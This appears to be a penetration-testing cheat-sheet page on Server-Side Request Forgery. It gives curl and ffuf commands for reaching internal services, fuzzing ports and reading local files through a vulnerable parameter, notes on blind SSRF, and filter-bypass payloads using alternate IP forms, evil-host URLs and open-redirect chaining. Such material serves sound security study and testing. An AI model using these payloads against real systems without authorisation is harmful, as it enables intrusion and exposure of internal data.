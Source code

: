 ```yaml
---
description: >-
  Server-Side Request Forgery (SSRF) is making the hosting application server
  issue requests to an arbitrary, external or internal, resource in an attempt
  to identify sensitive data.
---
```


# Server-Side Request Forgery (SSRF)

_**Exploiting SSRF vulnerabilities can lead to:**_

* Interacting with known internal systems.
* Discovering internal services via port scans.
* Disclosing local/sensitive data.
* Including files in the target application.
* Leaking NetNTLM hases using UNC Paths (Windows).
* Achieving remote code execution.



**When hunting for SSRF we should look for the following:**

* Parts of HTTP requests, including URLS.
* File imports such as HTML, PDFs, images, etc.
* Remote server connections to fetch data.
* API specification imports.
* Dashboards including ping and similar functionalities to check server statuses.



<mark style="color:red;">**NOTE:**</mark>** When fuzzing web applications, fuzzing should not just be limited to input fields only. Extend fuzzing to parts of the HTTP request as well, such as **_**User-Agent.**_



### Interacting with the Target:

_**Accessing local resources:**_

```bash
curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=index.html"
```

```bash
curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:1"
```

_**Port Fuzzing:**_

```bash
ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:PORT" -fr 'Errno[[:blank:]]111'
```

_**Interacting with internal resource on a discovered port:**_

```bash
curl -i -s "http://<TARGET IP>/load?q=http://127.0.0.1:5000" 	
```

_**Retrieving Local File:**_

```bash
 curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///app/internal_local.py"
```





## Blind SSRF:

Blind SSRF occurs when the request if processed yet we can't see the backend server's response.

To detect if a backend service is processing our requests, we can use a public IP address taht we own or services such as:

* Burp Collaborator - [https://portswigger.net/burp/documentation/collaborator](https://portswigger.net/burp/documentation/collaborator)
* [http://pingb.in](http://pingb.in)

<mark style="color:red;">**NOTE:**</mark> Blind SSRF vulnerabilites could exist in PDF Document generators and HTTP Headers, among other locations.





## Bypassing SSRF Defenses

It is common to see applications containing SSRF behavior together with defenses aimed at preventing malicious exploitation.&#x20;



### SSRF with Blacklist-based Input Filters

Some applications block input containing hostnames like _127.0.0.1_ and _localhost_, or sensitive URLS like _/admin_.

We may be able to circumvent the filter using various techniques:

* <mark style="color:green;">**TRY:**</mark> Using an alternative IP representation of `127.0.0.1`, such as `2130706433`, `017700000001`, or `127.1`.
* Registering your own domain name that resolves to `127.0.0.1`. You can use a vps or burp collaborator for this purpose.
* <mark style="color:green;">**TRY:**</mark> Obfuscating blocked strings using URL encoding or case variation.
* Providing a URL that you control, which subsequently redirects to the target URL. Try using different redirect codes, as well as different protocols for the target URL. For example, switching from an `http:` to `https:` URL during the redirect has been shown to bypass some anti-SSRF filters.

_**Tools:**_

_**IPFuscator:**_ [https://github.com/vysecurity/IPFuscator](https://github.com/vysecurity/IPFuscator)



### SSRF with Whitelist-based Input Filters

Some applications only allow input that matches, beings with, or contains, a whitelist of permitted values. This is generally the most secure, but we can sometimes circumvent the filter.

*   You can embed credentials in a URL before the hostname, using the `@` character. For example:

    `https://expected-host:fakepassword@evil-host`
*   You can use the `#` character to indicate a URL fragment. For example:

    `https://evil-host#expected-host`
*   You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:

    `https://expected-host.evil-host`
* You can URL-encode characters to confuse the URL-parsing code. This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request. Note that you can also try [double-encoding](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings#obfuscation-via-double-url-encoding) characters; some servers recursively URL-decode the input they receive, which can lead to further discrepancies.
* You can use combinations of these techniques together.



### Bypassing SSRF filters via open redirection

It is sometimes possible to bypass any kind of filter-based defenses by exploiting an open redirection vulnerability.&#x20;

For example, suppose an application contains an open redirection vulnerability in which the following URL:&#x20;

`/product/nextProduct?currentProductId=6&path=http://evil-user.net`

returns a redirection to:

`http://evil-user.net`

We can leverage the open redirection vulnerability to bypass the URL filter, and exploit the SSRF vulnerability as follows:

`POST /product/stock HTTP/1.0 Content-Type: application/x-www-form-urlencoded Content-Length: 118 stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin`

This exploit works because the application first validates that the supplied URL is on an allowed domain, which it is. The application then requests the supplied URL, which triggers the open redirection. It follows the redirection, and makes a request to the internal URL of the attackers choosing.
